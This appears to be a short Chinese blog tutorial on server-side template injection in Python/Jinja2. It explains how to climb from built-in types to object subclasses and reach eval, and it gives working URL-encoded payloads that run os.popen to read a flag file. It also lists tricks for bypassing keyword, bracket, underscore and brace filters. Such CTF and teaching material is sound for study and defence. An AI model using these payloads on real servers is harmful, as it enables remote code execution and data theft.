 ```yaml
---
layout:     post
title:      ssti
subtitle:   ssti
date:       2023-04-18
author:     xc
header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:
    - web安全
---
```

# ssti
我们首先要拿到一个类，因为再python中一切都是对象

''.__class__是str类
().__class__是tuple类
[].__class__是list类
{}.__class__是dict类

下一步是拿到所有类继承的基类object类，可以利用__mro__或__base__来获取

''.__class__.__mro__[1]

''.__class__.__mro__[2]

''.__class__.__base__

''.__class__.__bases__[1]

拿到基类后我们找到子类__subclasses__()

可利用的子类,只要子类被重载了并且func_globals中有__builtins__ 其中有（59）catch_warnings （71）site._Printer  (80)operator.itemgetter (166)jinja2.compiler.MacroRef （149）都可以

在子类中选择可用的类，去获取它们的globals变量，若类没有被重载，则它们并不是函数，没有__globals__属性（看__init__是否有slot wrapper)

若重载了看它们的__globals__中是否有__builtins__,这是对内建模块的引用，内建模块中有eval函数（或者func_globals.keys()中是否有__bulitins__）

若有，则使用
```
%7B%7B().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__(%22os%22).popen(%22cat fl4g%22).read()' )%7D%7D这里的13也即是下面的__bulitins__所在的索引

().__class__.__base__.__subclasses__()[59].__init__.__globals__['__bulitins__']查看该类的全局函数是否有__builtins__对内置模块引用

().__class__.__base__.__subclasses__()[59].__init__.__globals__['__bulitins__']['eval']查看内置模块中是否有eval函数

%7B%7B().__class__.__base__.__subclasses__()[59].__init__.__globals__['__bulitins__']['eval']('__import__(%22os%22).popen(%22cat fl4g%22).read()' )%7D%7D
```

## 过滤绕过
### 关键字绕过，如.和class
1.{{''.__class__}}等价于{{''["__class__"]}}

可以对其中关键字或部分使用16进制编码，unicode编码

2.引号绕过
{{''["__cla""ss__"]}}

### 中括号过滤
1.使用__getitem__函数即可，__getitem__(i)等价于[i]，也就是获取第i个元素

2.使用pop函数,pop(i)

3.使用.来访问，例如__globals__.__builtins__

### _过滤
使用request对象
例如{{()[request.args.class][request.args.bases][0]

### {{}}过滤
{% %}